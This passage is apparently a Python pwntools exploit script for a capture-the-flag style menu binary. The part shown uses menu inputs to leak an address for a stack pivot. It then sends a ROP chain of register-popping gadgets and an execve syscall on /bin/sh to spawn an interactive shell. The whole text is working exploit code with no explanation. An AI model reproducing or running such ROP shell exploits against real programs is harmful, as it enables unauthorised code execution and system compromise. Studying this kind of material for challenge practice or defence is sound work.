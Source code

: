 ```Python
popRdxAddress = baseAddress + 0x1b92

syscallAddress = baseAddress + 0xbc375
# ROP CHAIN END


p.readuntil("ENTER ALARM PASSWORD TO CONTINUE:")
p.sendline(str(currentPassword))
p.readuntil("Enter choice:")
p.sendline('1')
p.readuntil("Enter choice:")
p.sendline('3')

# GET ADDRESS LEAK
indexTen = str(hex(stackPivot))[-8:]
indexEleven = str(hex(stackPivot))[2:6]

p.readuntil("Enter Choice:")
p.sendline("3")
p.readuntil("Enter favorite number:")
p.sendline("10")
p.readuntil("Enter color as hex:")
p.sendline(indexTen)

p.readuntil("Enter Choice:")
p.sendline("3")
p.readuntil("Enter favorite number:")
p.sendline("11")
p.readuntil("Enter color as hex:")
p.sendline(indexEleven)




p.readuntil("Enter Choice:")
payload = b"4" + (b"\x90" * 15) + p64(popRdiAddress) + p64(binShAddress) + p64(popRaxAddress) + p64(0x3b) + p64(popRsiAddress) + p64(0x0) + p64(popRdxAddress) + p64(0x00) + p64(syscallAddress)
p.sendline(payload)



p.interactive()
```